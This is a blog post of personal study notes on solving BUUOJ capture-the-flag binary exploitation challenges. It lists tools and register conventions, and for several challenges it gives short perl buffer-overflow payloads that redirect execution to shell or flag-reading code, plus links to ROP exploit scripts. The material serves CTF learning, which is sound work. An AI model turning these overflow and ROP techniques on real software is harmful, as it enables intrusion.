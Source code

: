 ```yaml
---
layout: post
title:  "信息安全学习笔记 - BUUOJ Pwn"
date:   2020-08-26 22:15:38 +0800
---
```



# BUUOJ PWN

## Requirements
1. python
   1. ropgadget, capstone, 
   2. pwntools
   3. LibcSearcher
2. nasm

## Prologue
1. file xxx
   1. arch, stripped?
2. checksec

## Terminology

### [System call](https://blog.packagecloud.io/eng/2016/04/05/the-definitive-guide-to-linux-system-calls)

- x86:
  - system call via interrupt: `int 80`, `ebx, ecx, edx, esi, edi, ebp` with `eax` filled with system call number
- x86_64 with `rax` filled with system call number 
  - user call: `rdi, rsi, rdx, rcx, r8, r9`
  - system call: `rdi, rsi, rdx, r10, r8, r9`

## Problems

1. test_your_nc 
   1. ida system("/bin/sh");
   2. `perl -e 'print "ls\ncat flag\n"' | test_your_nc`
2. [**RA**] rip
   1. `system("/bin/sh")` found
   2. segfault??? _TODO_
3. [**RA**] warmup_csaw_2016
   1. `system("cat flag.txt")` found
   2. `perl -e 'print "A"x72 . "\x0d\x06\x40\x00\x00\x00\x00\x00\n"' | ./warmup_csaw_2016`
4. [**RA**] pwn1_sctf_2016
   1. `'system("cat flag.txt")'` found
   2. `perl -e 'print "I"x20 . "\xef\xbe\xad\xde\x0d\x8f\x04\x08\n"' | ./pwn1`
5. [**RA**] ciscn_2019_n_1
   1. `perl -e 'print "A"x(0x30-4) . "\x00\x80\x34\x41\n"' | ./ciscn_2019_n_1`
6. [**ROP**]({{ site.url }}/2020/07/14/buuoj-pwn-ciscn_2019_c_1.html) ciscn_2019_c_1
7. [**ROP**]({{ site.url }}/assets/OGeek2019_babyrop.py) [OGeek2019]babyrop
   1. Flaw: `strncmp(a, b, 0)` always returns 0
8. ciscn_2019_en_2: the same as [ciscn_2019_c_1]({{ site.url }}/2020/07/14/buuoj-pwn-ciscn_2019_c_1.html)
9. [**ROP**]({{ site.url }}/assets/get_started_3dsctf_2016.py) get_started_3dsctf_2016:
   1.  Peaceful exit ?
10. [**ROP**]({{ site.url }}/assets/5space_pwn5.py) [第五空间2019 决赛]PWN5: [**Format string exploit**](https://wooyun.js.org/drops/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E%E7%AE%80%E4%BB%8B.html)
11. [**ROP**]({{ site.url }}/assets/jarvisoj_level0.py) jarvisoj_level0
12. [**ROP**]({{ site.url }}/assets/r2t3.py) [BJDCTF 2nd]r2t3:
    1. Flaw: truncated string length: `uint8_t length = (uint8_t) strlen(input)`
13. [**ROP**]({{ site.url }}/assets/ciscn_2019_n_8.py) ciscn_2019_n_8
14. [**ROP**]({{ site.url }}/assets/not_the_same_3dsctf_2016.py) not_the_same_3dsctf_2016
    1. Or [mprotect(.bss)](https://zhuanlan.zhihu.com/p/141065867), read and shellcode _TODO_
15. [**ROP**]({{ site.url }}/assets/HarekazeCTF2019_baby_rop.py) [HarekazeCTF2019]baby_rop
16. [**ROP**]({{ site.url }}/assets/BJDCTF_2nd_one_gadget.py) [BJDCTF 2nd]one_gadget
    1. The [one_gadget](https://github.com/david942j/one_gadget) tool
17. [**ROP**]({{ site.url }}/assets/bjdctf_2020_babystack.py) bjdctf_2020_babystack
18. [**ROP**]({{ site.url }}/assets/ciscn_2019_n_5.py) ciscn_2019_n_5
    1.  libc: `http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_amd64.deb`
19. [**ROP**]({{ site.url }}/assets/ciscn_2019_s_3.py) [ciscn_2019_s_3](http://liul14n.top/2020/03/07/Ciscn-2019-s-3/)
    1.  Construct `"/bin/sh"` on stack
    2.  ROP via `__libc_csu_init()`
    3.  Or, [`sigreturn()`](http://liul14n.top/2020/03/07/Ciscn-2019-s-3/)
20. [**ROP**]({{ site.url }}/assets/HarekazeCTF2019_baby_rop_2.py) [HarekazeCTF2019]babyrop2
    1.  Leaked address of `printf()` ends with `"\x00"` and outputs nothing
    2.  Construct `"/bin/sh"` and ROP chain in .bss segment
21. [**ROP**]({{ site.url }}/assets/pwn2_sctf_2016.py) [pwn2_sctf_2016]pwn2_sctf_2016
    1.  Flaw: only check if length<=0x20
22. [**ROP**]({{ site.url }}/assets/2018_rop.py) [铁人三项(第五赛区)] 2018_rop
